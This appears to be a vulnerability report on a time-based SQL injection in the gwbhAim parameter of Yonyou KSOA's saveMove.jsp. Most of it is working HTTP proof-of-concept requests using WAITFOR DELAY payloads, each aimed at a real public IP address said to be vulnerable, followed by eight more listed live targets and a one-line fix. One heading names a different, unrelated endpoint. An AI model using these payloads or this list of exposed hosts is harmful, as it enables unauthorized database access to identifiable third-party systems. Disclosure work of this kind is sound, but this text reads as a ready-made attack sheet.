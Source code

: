 YonYou(UF) -space-time KSOA-saveMove.jsp file gwbhAim parameter has a -SQL injection vulnerability

\1. Vulnerability description

YonYou(UF) -space-time KSOA-saveMove.jsp file gwbhAim parameter has a -SQL injection vulnerability. An attacker can exploit this vulnerability to obtain database information.

\2. Vulnerability impact

Yonyou space-time enterprise information integration platform

Third, vulnerability location/hr_dept/update_dept.jsp?bmbh

## Third, vulnerability location

**Recurrence one**

**Ip****：http://** **218.207.206.172:5080** 

 

（2）Construct the poc, as follows, and successfully verify that there is an information leakage vulnerability

POC:

GET /hr_position/saveMove.jsp?gwbhAim=211';WAITFOR+DELAY+'0:0:2'-- HTTP/1.1

Host: 218.207.206.172:5080

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://218.207.206.172:5080/login.jsp

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Cookie: JSESSIONID=14E9CA8A4F3FB5919CADB82134FEBFE7

Connection: close

 

（3）Successful screenshot

![img](file:///C:/Users/76548/AppData/Local/Temp/msohtmlclip1/01/clip_image002.png)

Sqlmap SCREENSHOTS：

![img](file:///C:/Users/76548/AppData/Local/Temp/msohtmlclip1/01/clip_image004.png)

## Recurrence II

**Ip****：http://219.157.70.90:90**

 

（2）Construct the poc, as follows, and successfully verify that there is an information leakage vulnerability 

GET /hr_position/saveMove.jsp?gwbhAim=21';WAITFOR+DELAY+'0:0:5'-- HTTP/1.1

Host: 219.157.70.90:90

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://219.157.70.90:90/login.jsp

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Cookie: JSESSIONID=14E9CA8A4F3FB5919CADB82134FEBFE7

Connection: close

 

![img](file:///C:/Users/76548/AppData/Local/Temp/msohtmlclip1/01/clip_image006.png)

Sqlmap SCREENSHOTS

![img](file:///C:/Users/76548/AppData/Local/Temp/msohtmlclip1/01/clip_image008.png)

 

**Recurrence III**

**Ip****：http://** 58.221.144.98:8099

 

（2）Construct the poc, as follows, and successfully verify that there is an information leakage vulnerability 

GET /hr_position/saveMove.jsp?gwbhAim=21';WAITFOR+DELAY+'0:0:5'-- HTTP/1.1

Host: 58.221.144.98:8099

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://219.157.70.90:90/login.jsp

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Cookie: JSESSIONID=14E9CA8A4F3FB5919CADB82134FEBFE7

Connection: close

 

![img](file:///C:/Users/76548/AppData/Local/Temp/msohtmlclip1/01/clip_image010.png)

Sqlmap SCREENSHOTS：

![img](file:///C:/Users/76548/AppData/Local/Temp/msohtmlclip1/01/clip_image012.png)

 

**Other IP addresses:**

http://218.87.194.22

http://111.53.152.34:666

http://183.44.113.114:7001

http://113.12.72.180:106

http://117.158.184.203:9097

http://182.150.28.45:8088

http://121.89.217.84:101

http://61.178.150.175:9088

**Repair suggestions:**

a) Filter parameters to prevent sql injection.

 